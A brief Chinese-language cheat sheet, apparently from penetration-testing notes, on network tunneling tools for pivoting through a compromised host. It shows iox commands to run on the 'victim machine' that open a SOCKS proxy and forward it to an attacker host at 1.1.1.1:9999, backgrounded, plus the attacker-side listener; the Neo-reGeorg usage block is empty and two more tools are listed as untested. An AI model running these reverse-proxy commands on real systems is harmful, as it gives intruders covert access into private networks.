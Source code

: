 # iox

项目地址：https://github.com/EddieIvan01/iox

用法：
```
受害机执行：
./iox proxy -l 1080
./iox proxy -r 1.1.1.1:9999
确认执行无误后，放入后台执行：
./iox proxy -l 1080 &
./iox proxy -r 1.1.1.1:9999 &

攻击机执行：
./iox proxy -l 9999 -l 1080

注意：受害机开启代理后，需要先在攻击机开启监听，再到受害机上执行转发
```

# Neo-reGeorg
项目地址：https://github.com/L-codes/Neo-reGeorg

用法：
```
```

# 推荐（待测试）项目
```
https://github.com/zema1/suo5
https://github.com/Mob2003/rakshasa
```
